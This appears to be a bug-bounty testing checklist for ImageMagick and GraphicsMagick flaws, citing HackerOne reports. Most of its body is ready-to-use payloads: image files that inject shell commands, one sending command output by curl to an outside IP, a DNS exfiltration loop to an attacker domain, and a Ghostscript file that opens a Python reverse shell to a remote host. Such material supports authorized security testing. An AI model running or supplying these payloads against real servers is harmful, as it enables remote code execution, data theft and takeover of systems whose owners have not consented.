 # Image Magic / Graphics Magic vulnerabilities

- [ ] Anywhere where we can upload a picture, check for Image Tragic. Especially in profile picture uploads when we see a cropped version of the picture.

- [ ] Check for RCE (CVE-2016-3714)
  - https://hackerone.com/reports/135072

x.gif
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`wget -O- 167.71.9.74:1337 > /dev/null`'
pop graphic-context
```

  - https://web.archive.org/web/20190104220048/https://nahamsec.com/exploiting-imagemagick-on-yahoo/

x.png
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://167.71.9.74:1337/ -d @- > /dev/null`'
pop graphic-context
```

- [ ] Firewalls could be blocking certain requests. Try exfiltration through DNS.
  - https://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html
  
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=%60for i in $(ls /) ; do curl "http://$i.attacker.tld/" -d @- > /dev/null; done`'
pop graphic-context
```  
  
- [ ] Check if we are able to edit an uploaded image. Does the request contain arguments? If the backend is using GraphicsMagic, we could inject commands.
  - https://hackerone.com/reports/212696

- [ ] If there is no validation on the file type and Ghostscript is enabled we could get RCE
  - https://hackerone.com/reports/422944

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("167.71.9.74",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

- [ ] Check if we can disclose server memory through image magic (CVE-2017-15277, CVE-2018-16323)
  - https://hackerone.com/reports/302885
  - https://hackerone.com/reports/251732
  - https://hackerone.com/reports/274594
  - https://hackerone.com/reports/315256
  - https://medium.com/@ilja.bv/yet-another-memory-leak-in-imagemagick-or-how-to-exploit-cve-2018-16323-a60f048a1e12
